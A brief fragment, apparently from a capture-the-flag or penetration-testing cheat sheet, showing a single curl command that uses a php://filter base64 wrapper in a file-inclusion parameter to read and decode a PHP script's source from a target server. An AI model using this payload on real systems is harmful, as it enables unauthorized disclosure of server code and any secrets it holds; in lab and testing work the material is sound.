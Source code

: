
Read the source code of .php
```
curl -s 'http://<ip_addr>/<filename>.php?file=php://filter/convert.base64-encode/resource=secret-script.php' | base64 -d
```
